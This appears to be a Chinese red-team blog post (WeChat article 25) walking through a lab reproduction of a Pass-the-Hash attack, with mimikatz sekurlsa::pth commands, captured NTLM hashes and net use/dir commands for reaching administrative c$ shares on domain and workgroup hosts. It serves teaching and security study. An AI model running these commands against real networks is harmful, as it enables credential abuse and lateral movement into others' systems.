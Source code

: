 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/T5tJ3GkeNKmyFXyW4CEr1A)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **25** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

哈希传递攻击

哈希传递（Pass The Hash）攻击，该方法通过找到与账户相关的密码散列值（通常是 NTLM Hash）来进行攻击。

在域环境中，用户登录计算机时使用的大概都是域账号，大量计算机在安装时会使用相同的本地管理员账户密码，因此如果计算机的本地管理员账户和密码相同的话，攻击者就能使用哈希传递攻击的方法登录内网中的其他计算机。

哈希传递攻击的好处
---------

通过哈希传递攻击，攻击者不需要花时间破解密码散列值来获取明文密码。

在 Windows Server 2012 R2 及之后的版本的操作系统中，默认在内存中不会记录明文密码，因此，攻击者往往会使用工具将散列值传递到其他计算机中，进行权限验证，实现对远程计算机的控制。

哈希传递攻击分析
--------

散列值的概念：当用户登录一个网站的时候，如果该网站使用的是明文密码来保存密码，那么一旦网站被攻破，所有用户的明文密码都会被泄露，所有就产生了散列值的概念。

哈希传递攻击的前提：有管理员的 NTLM Hash ，并且目标机器开放 445 端口。

#### 在工作组环境中

*   Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    
*   Windows Vista 之后的机器，只能是 administrator(SID 为 500)用户的哈希值才能进行哈希传递攻击，其他用户 (包括管理员用户但是非 administrator) 也不能使用哈希传递攻击，会提示拒绝访问。
    

> 这里强调的是 SID 为 500 的账号，在一些计算机中，即使将 Administrator 账号改名，也不会影响 SID 的值。再补充一下：管理员组的非 SID500 账户登录之后是没有过 UAC 的，所有特权都被移除。而 SID500 账户登录之后也以完全管理特权（” 完全令牌模式”）运行所有应用程序，实际是不用过 UAC 的。

**Hash 传递攻击**

**使用 NTLM Hash 进行哈希传递**

* * *

##### mimikatz（域环境）

用到的工具是 Mimikatz 。

首先是使用 Mimikatz 抓取到了域管的 NTLM Hash：

```
administrator
ccef208c6485269c20db2cad21734fe7
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLPx9ib8gM0vSL86ySpNu7gqsbSmibSrISvcLHKXuvQkwZ2z4nq7JuLE1ibscib1M9X6Nr7NiczeYCic0Qg/640?wx_fmt=png)

重点在于使用哈希传递的时候需要用管理员权限运行 mimikatz，我们已经获取了域管理员组内用户的 NTLM 哈希值。我们可以使用域内的一台主机用 mimikatz 对域内任何一台机器 (包括域控) 进行哈希传递攻击。执行完命令后，会弹出 CMD 窗口，在弹出的 CMD 窗口我们可以访问域内任何一台机器。前提是我们必须拥有域内任意一台主机的本地管理员权限和域管理员的密码 NTLM 哈希值。

攻击者：mary.god（域用户，有管理员权限的 shell）

目标：god.administrator（域管理员）

目标 IP：192.168.3.21

首先是使用 Mimikatz 抓取到了域管理员的 NTLM Hash：

```
god.org
administrator
ccef208c6485269c20db2cad21734fe7
```

```
\# 运行命令弹出CMD
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7"
# 与域控建立IPC
net use \\\\192.168.3.21
# 查看目标机器的C盘文件
dir \\\\192.168.3.21\\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLPx9ib8gM0vSL86ySpNu7gqAqdZQbib0iaRtcLwLfjI1byia6V1oFFWtozM0iaY5Y5SoNNEtJdfn9cbqg/640?wx_fmt=png)

mimikatz（工作组环境）  

攻击者：mary（工作组，管理员权限）

目标：administrator（本地管理员）

目标 IP：192.168.3.31

首先是使用 Mimikatz 抓取到了本地管理员的 NTLM Hash：

```
administrator
518b98ad4178a53695dc997aa02d455c
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLPx9ib8gM0vSL86ySpNu7gqHuCNgVZHkCArN0vVV0s1GENMRPrBvqhxuLlAKIAoR6FZQ6X1vRDooA/640?wx_fmt=png)

运行命令：

```
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:目标机器IP /ntlm:xxxxxx"
#实例
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:192.168.3.31 /ntlm:518b98ad4178a53695dc997aa02d455c"
# 与本地管理员建立IPC
net use \\\\192.168.3.21
# 查看目标机器的C盘文件
dir \\\\192.168.3.31\\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLPx9ib8gM0vSL86ySpNu7gqTicB9u3sjgSvmGOvQiaW5vQ0ibFz33UdRQb1Gpqic7ibm6wtTQSbx1pAguQ/640?wx_fmt=png)

PS：有的时候 dir 后面跟 IP 地址会提示用户名或密码错误，这个时候我们需要输入目标的主机名：

```
dir \\\\OWA2010CN-God\\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLPx9ib8gM0vSL86ySpNu7gqq6z5hAIMiaeoe9mGwncPDI4iaA4mGpqchzbBgyiayKxibrFsic4Qicz7VNGw/640?wx_fmt=png)

成功，此时会自动弹出一个新的 shell，这时访问远程主机或服务，就不用提供明文密码了，如下，我们列出了域控制器的 c 盘目录：  

注意，哈希传递攻击要注意一下几点：

*   dir 命令后面要使用主机名，不能用 IP，否则报错
    
*   使用 mimikatz 进行哈希传递要具有本地管理员权限
    

* * *

渗透攻击红队 发起了一个读者讨论 快来发表你的评论把！

参考文章：

https://mp.weixin.qq.com/s/MtomFV5oKziT6\_Zt1rBpKQ

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看
